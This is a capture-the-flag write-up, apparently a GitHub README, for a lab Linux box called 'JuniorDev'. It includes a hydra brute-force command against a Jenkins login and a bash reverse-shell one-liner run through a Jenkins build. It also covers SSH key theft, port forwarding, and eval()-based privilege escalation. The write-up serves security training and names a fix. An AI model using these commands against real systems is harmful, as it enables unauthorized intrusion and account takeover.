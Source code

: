 # JuniorDev!
## @Author : M3tr1c_r00t
![image](https://user-images.githubusercontent.com/99975622/210865706-53f990ea-657f-4e80-a31e-3280c0d314f0.png)
**_Junior Dev_** is a medium linux machine which involves bruteforcing into Jenkins to gain access, then involves port forwarding to gain acess to a python web server being run as root and exploit it to gain root priviledges!

### Enumeration...
_**Nmap...**_
```
# Nmap 7.92 scan initiated Sat Dec 24 19:47:32 2022 as: nmap -sC -sV -A -p 22,30609 -oN nmapports.txt 10.150.150.38
Nmap scan report for 10.150.150.38
Host is up (0.23s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 64:63:02:cb:00:44:4a:0f:95:1a:34:8d:4e:60:38:1c (RSA)
|   256 0a:6e:10:95:de:3d:6d:4b:98:5f:f0:cf:cb:f5:79:9e (ECDSA)
|_  256 08:04:04:08:51:d2:b4:a4:03:bb:02:71:2f:66:09:69 (ED25519)
30609/tcp open  http    Jetty 9.4.27.v20200227
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.27.v20200227)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.32 (96%), Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 - 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   227.63 ms 10.66.66.1
2   227.66 ms 10.150.150.38

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Dec 24 19:47:58 2022 -- 1 IP address (1 host up) scanned in 26.91 seconds
```
With only two ports open, we can go and take a look at the web server at _**port 30609**_ ...
![Screenshot from 2022-12-25 07-54-20](https://user-images.githubusercontent.com/99975622/210867918-460e5821-585f-485d-a4ce-fd9b94f36800.png)

The next thing we can do, try to brute force the login page as the box's name is junior dev, so probably there's some kind of misconfiguration.
<br> Also, jenkins doesnt have a default password but has a default username, so we are gonna brute force the login using hydra ...

![Screenshot from 2022-12-25 08-24-21](https://user-images.githubusercontent.com/99975622/210868426-7a4113b1-db9f-4299-bcb1-631608935874.png)

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.150.150.38 -s 30609 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:F=loginError"
```
Now that we have the creds, let login into the site...
![Screenshot from 2022-12-25 08-25-11](https://user-images.githubusercontent.com/99975622/210868917-d86374ea-b80e-4b0f-badd-c56528718f4c.png)

Next step after login, we can try and look for a way to get a reverse shell onto the server...
You will notice that there is a section for actions and in those actions, there is a section for executing shell commands...
![Screenshot from 2022-12-25 08-25-34](https://user-images.githubusercontent.com/99975622/210869289-3269328f-1ca2-4239-90e5-26eb2034c1c6.png)

So next, change the shell code so that you can get a reverse shell on the server...
```
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'
```
After saving the code, click on the build now to execute the command...
![Screenshot from 2022-12-25 08-26-55](https://user-images.githubusercontent.com/99975622/210870240-d45f0582-66ac-479f-b837-3cd998393d8a.png)

And we've gotten our reverse shell...
![Screenshot from 2022-12-25 08-27-58](https://user-images.githubusercontent.com/99975622/210870883-f68fee22-f0ac-42fe-b0a4-1843157a73d7.png)

Next, stabilize the shell, then we can try to find some of the flags...
#### FLAG70
![Screenshot from 2022-12-25 08-28-08](https://user-images.githubusercontent.com/99975622/210871326-f7c5dfdc-d04c-44e5-ba00-77e5f64a2ae7.png)
#### FLAG69
![Screenshot from 2022-12-25 08-30-30](https://user-images.githubusercontent.com/99975622/210871614-83d6c725-6f9b-43ff-a40f-25d979e9d05c.png)
### Local Escalation...
If you check the /etc/passwd file, you'll see that we've gotten a reverse shell as the jenkins web-server...
<br> We're gonna try to get access to the juniordev user...
<br> We can start by checking files in our current directory...
![Screenshot from 2022-12-25 08-30-45](https://user-images.githubusercontent.com/99975622/210872208-277c4b9d-0997-408c-82ea-7fc5ae6a2290.png)
Note that the .bash_history file is owned by jenkins, meaning we have acess...
<br> If we check out the contents of the file, we can see that jenkins can read the contents of the id_rsa file of juniordev and we get his key...
![Screenshot from 2022-12-25 08-31-15](https://user-images.githubusercontent.com/99975622/210872650-b4313c35-599b-40fe-bc80-1aafa94c63df.png)
Save the key to a file, grant the required permissions then ssh as juniordev...
![Screenshot from 2022-12-25 08-35-00](https://user-images.githubusercontent.com/99975622/210872832-c9487cf7-13cc-4843-9bf1-cd07c16ed30d.png)


### Priv Esc...
If we check out the open ports on the machine, we can find that there's an internal site running on port 8080...
![Screenshot from 2022-12-25 08-35-33](https://user-images.githubusercontent.com/99975622/210874807-8700d061-ee30-4d29-88bd-efff4e430fb0.png)
We can do a port forwarding so that we can check out the site...
<br>we can do a port forwarding use ssh or using the chisel tool...
 <br> But for this instance, im gonna use ssh coz i've been using chisel for a while, mostly in HTB boxes...
 But if you wanna check out chisel port forwarding, you can use this...
 ```
 # portforwarding using chisel...
 https://ap3x.github.io/posts/pivoting-with-chisel/
 
 # port forwarding using ssh...
 ssh -L 9090:127.0.0.1:8080 -i id_rsa juniordev@10.150.150.38 
 ```
![Screenshot from 2022-12-25 09-03-18](https://user-images.githubusercontent.com/99975622/210876254-e833e2aa-d152-4ddb-908d-b0b775e0fe84.png)

Now, we can check out thr service which seems to be an addition application running using python
![Screenshot from 2022-12-25 09-03-24](https://user-images.githubusercontent.com/99975622/210876454-5d20cae0-3f5a-4cc4-a306-da6c1777bdd1.png)

#### FLAG 71
If we look at the source code of the application, we find the other flag in an image...
![Screenshot from 2022-12-24 20-10-22](https://user-images.githubusercontent.com/99975622/210876735-e3975c69-ae02-43f0-9bd4-6e174a56a5d4.png)
Instead of typing the entire flag hash, we can use this image to text converter...
![FLAG](https://user-images.githubusercontent.com/99975622/210877530-b7e9e18d-aa4e-4c68-af92-dc2dd12a58c4.png)
```
https://www.ocr2edit.com/
```
We can intercept the response of the appication using burp and using the os python library, make the /bin/bash binary suid executable...
![Screenshot from 2022-12-24 21-37-36](https://user-images.githubusercontent.com/99975622/210877853-9cf20498-b255-441b-94ab-92eba75a65bb.png)
And we are finally root!

![Screenshot from 2022-12-24 21-38-57](https://user-images.githubusercontent.com/99975622/210877931-f4f93166-f8fe-401a-b50e-f6cc15709dbb.png)
### Proof of Concept...
We were only able to execute the os module because the parameters on the application were using _**eval()**_ ...
![image](https://user-images.githubusercontent.com/99975622/210879464-16efbe03-5376-42d4-84f4-df82132fcb5c.png)
In our case...
![Screenshot from 2022-12-24 21-40-01](https://user-images.githubusercontent.com/99975622/210878232-6f93b219-6f40-42ab-b85a-a62a2c00d1e7.png)
To fix this vulnerability, we can change the _**eval()**_ to _**int()**_ 
![Screenshot from 2022-12-24 21-39-32](https://user-images.githubusercontent.com/99975622/210879077-e07916be-ef25-4287-a0a0-ade007ba7c0a.png)

#### FLAG72
In the root directory...

And done!

![Screenshot from 2022-12-24 21-41-15](https://user-images.githubusercontent.com/99975622/210880021-ea1ee04b-b69e-4ee0-9174-0305ae2c30ee.png)


## My socials:
<br>@ twitter: https://twitter.com/M3tr1c_root
<br>@ instagram: https://instagram.com/m3tr1c_r00t/
